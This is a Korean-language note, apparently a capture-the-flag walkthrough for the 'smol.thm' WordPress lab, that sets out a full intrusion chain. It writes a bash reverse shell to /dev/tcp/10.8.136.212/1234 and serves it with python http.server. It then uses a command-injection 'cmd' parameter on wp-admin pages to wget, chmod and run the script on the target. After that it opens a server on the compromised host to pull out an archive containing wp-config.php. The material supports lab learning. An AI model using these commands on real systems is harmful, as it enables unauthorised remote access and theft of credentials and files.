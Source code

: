 ````markdown
## Python3 설치 및 리버스 쉘 서버 실행법

1. **Python3 설치**

```bash
sudo apt update
sudo apt install python3
```
````

2. **리버스 쉘 스크립트 작성**

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.8.136.212/1234 0>&1'" > rev.sh
```

3. **공격자가 악성 스크립트 배포를 위한 서빙**

```bash
python3 -m http.server 6666
```

- 현재 디렉터리 파일을 6666 포트로 서비스함

4. **타겟에서 스크립트 다운로드**

```bash
# browser url
http://www.smol.thm/wp-admin/index.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh

# curl
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=wget http://10.8.136.212:6666/rev.sh -O /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=chmod +x /tmp/rev.sh
curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=cat /tmp/rev.sh > tmp.txt
```

5. **타겟에서 리버스 쉘 실행**

```
http://www.smol.thm/wp-admin/index.php?cmd=bash /tmp/rev.sh
```

# 타킷에서 unzip wordpress.old.zip -> 암호화 걸림 -> 다운로드 필요

wordpress.old wordpress.old.zip
gege@ip-10-10-97-230:~$ unzip wordpress.old.zip
Archive: wordpress.old.zip
[wordpress.old.zip] wordpress.old/wp-config.php password:

# python3 -m http.server 8080 -> 타겟에서 서버 오픈

[wordpress.old.zip] wordpress.old/wp-config.php password: gege@ip-10-10-97-230:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

# attacker -> 공격자에서 요청 설치 -> 서버를 오픈했던 path 를 기반으로 설치할 파일 요청

wget http://www.smol.thm:8080/wordpress.old.zip
